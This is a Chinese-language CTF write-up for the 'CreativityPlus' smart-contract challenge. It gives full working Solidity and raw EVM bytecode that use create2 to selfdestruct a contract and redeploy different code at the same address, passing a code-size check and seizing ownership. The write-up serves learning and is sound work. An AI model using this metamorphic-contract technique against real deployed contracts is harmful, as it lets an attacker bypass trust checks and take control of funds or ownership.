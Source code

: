 # CreativityPlus

* 题目很简单，改编自 `Creativity` 题目，简称 `CreativityPlus` 升级版
* 考点 `create2` 与 `bytecode`
* 题目逻辑如下：
    * 部署一个合约，大小不超过 `4` 字节
    * 调用 `check` ，参数是我们部署的合约地址
    * 调用 `execute`，使得返回值为 `true`，我们即可成为 `owner`

* 但是我们没法在 `4` 个字节内 `emit SendFlag`
* `create2` 骚操作，使用如下代码可将不同 `bytecode` 部署到同一个地址上，`deployedAddr` 即为部署的合约地址

```
pragma solidity ^0.5.10;

contract Deployer {
    bytes public deployBytecode;
    address public deployedAddr;
    
    function deploy(bytes memory code) public {
        deployBytecode = code;
        address a;
        // Compile Dumper to get this bytecode
        bytes memory dumperBytecode = hex'6080604052348015600f57600080fd5b50600033905060608173ffffffffffffffffffffffffffffffffffffffff166331d191666040518163ffffffff1660e01b815260040160006040518083038186803b158015605c57600080fd5b505afa158015606f573d6000803e3d6000fd5b505050506040513d6000823e3d601f19601f820116820180604052506020811015609857600080fd5b81019080805164010000000081111560af57600080fd5b8281019050602081018481111560c457600080fd5b815185600182028301116401000000008211171560e057600080fd5b50509291905050509050805160208201f3fe';
        assembly {
            a := create2(callvalue, add(0x20, dumperBytecode), mload(dumperBytecode), 0x8866)
        }
        deployedAddr = a;
    }
}

contract Dumper {
    constructor() public {
        Deployer dp = Deployer(msg.sender);
        bytes memory bytecode = dp.deployBytecode();
        assembly {
            return (add(bytecode, 0x20), mload(bytecode))
        }
    }
}
```

* 所以题目的逻辑如下:
    * 用 `create2` 的骚操作,部署一个合约 `0x33ff` ,即 `selfdestruct(msg.sender)`
    * 调用 `check()` ,让 `target` 为我们部署的合约地址
    * 给我们部署的合约发一笔空交易,让它自毁
    * 再次使用 `create2` 骚操作,在同一个地址部署合约,合约内容大小不超过 `10` 字节，返回 `1`

* 返回值由 `return(p, s)` 操作码处理，但是在返回值之前，必须先存储在内存中，使用 `mstore(p, v)` 将 `1` 存储在内存中
    - 首先，使用 `mstore(p, v)` 将 `1` 存储在内存中，其中 `p` 是在内存中的存储位置， `v` 是十六进制值，`1` 的十六进制是 `0x01`
```
    0x6001     ;PUSH1 0x01                  v
    0x6080     ;PUSH1 0x80                  p
    0x52       ;MSTORE
```
    - 然后，使用 `return(p, s)` 返回 `0x01` ，其中 `p` 是值 `0x2a` 存储的位置，`s` 是值 `0x2a` 存储所占的大小 `0x20` ，占 `32` 字节
```
    0x6020     ;PUSH1 0x20                  s
    0x6080     ;PUSH1 0x80                  p
    0xf3       ;RETURN
```

* 所以我们只需使用 `Deployer.deploy` 部署 `0x600160805260206080f3` 即可，正好 `10 opcodes`
* 调用 `execute` 我们即可成为 `owner`